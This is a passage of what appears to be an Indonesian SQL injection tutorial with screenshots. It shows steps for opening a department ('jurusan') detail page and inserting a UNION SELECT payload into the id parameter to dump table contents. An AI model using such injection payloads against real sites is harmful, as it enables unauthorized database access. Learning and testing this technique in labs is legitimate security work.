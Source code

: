<img src="images/index.png" style="width: 80%;height: auto;margin: 50px auto;box-shadow: -4px 4px 12px#bbb;display: block;">

6. Klik detail pada salah 1 Jurusan
7. Tambahkan script dibawah pada parameter id
```
.1'union select 1,(select group_concat("<br>", id,"::",nama_jurusan)) from jurusan-- -
```

<img src="images/detail1.png" style="width: 80%;height: auto;margin: 50px auto;box-shadow: -4px 4px 12px#bbb;display: block;">
